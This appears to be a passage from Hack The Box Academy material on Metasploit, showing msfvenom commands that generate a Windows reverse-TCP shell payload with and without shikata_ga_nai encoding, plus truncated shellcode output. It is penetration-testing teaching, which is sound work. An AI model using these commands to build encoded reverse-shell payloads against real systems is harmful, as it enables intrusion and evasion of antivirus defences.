 After 2015, updates to these scripts have combined them within the `msfvenom` tool, which takes care of payload generation and Encoding. We will be talking about `msfvenom` in detail later on. Below is an example of what payload generation would look like with today's `msfvenom`:

### **Generating Payload - Without Encoding**

```
th1nyunb0y@htb[/htb]$ msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perlFound 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 381 (iteration=0)
x86/shikata_ga_nai chosen with final size 381
Payload size: 381 bytes
Final size of perl file: 1674 bytes
my$buf = 
"\xda\xc1\xba\x37\xc7\xcb\x5e\xd9\x74\x24\xf4\x5b\x2b\xc9" .
"\xb1\x59\x83\xeb\xfc\x31\x53\x15\x03\x53\x15\xd5\x32\x37" .
"\xb6\x96\xbd\xc8\x47\xc8\x8c\x1a\x23\x83\xbd\xaa\x27\xc1" .
"\x4d\x42\xd2\x6e\x1f\x40\x2c\x8f\x2b\x1a\x66\x60\x9b\x91" .
"\x50\x4f\x23\x89\xa1\xce\xdf\xd0\xf5\x30\xe1\x1a\x08\x31" .

<SNIP>
```

We should now look at the first line of the `$buf` and see how it changes when applying an encoder like `shikata_ga_nai`.

### **Generating Payload - With Encoding**

```
th1nyunb0y@htb[/htb]$ msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl -e x86/shikata_ga_naiFound 1 compatible encoders
Attempting to encode payload with 3 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 326 (iteration=0)
x86/shikata_ga_nai succeeded with size 353 (iteration=1)
x86/shikata_ga_nai succeeded with size 380 (iteration=2)
x86/shikata_ga_nai chosen with final size 380
Payload size: 380 bytes
buf = ""
buf += "\xbb\x78\xd0\x11\xe9\xda\xd8\xd9\x74\x24\xf4\x58\x31"
buf += "\xc9\xb1\x59\x31\x58\x13\x83\xc0\x04\x03\x58\x77\x32"
buf += "\xe4\x53\x15\x11\xea\xff\xc0\x91\x2c\x8b\xd6\xe9\x94"
buf += "\x47\xdf\xa3\x79\x2b\x1c\xc7\x4c\x78\xb2\xcb\xfd\x6e"
buf += "\xc2\x9d\x53\x59\xa6\x37\xc3\x57\x11\xc8\x77\x77\x9e"

<SNIP>

```

### **Shikata Ga Nai Encoding**

![https://academy.hackthebox.com/storage/modules/39/shikata_ga_nai.gif](https://academy.hackthebox.com/storage/modules/39/shikata_ga_nai.gif)
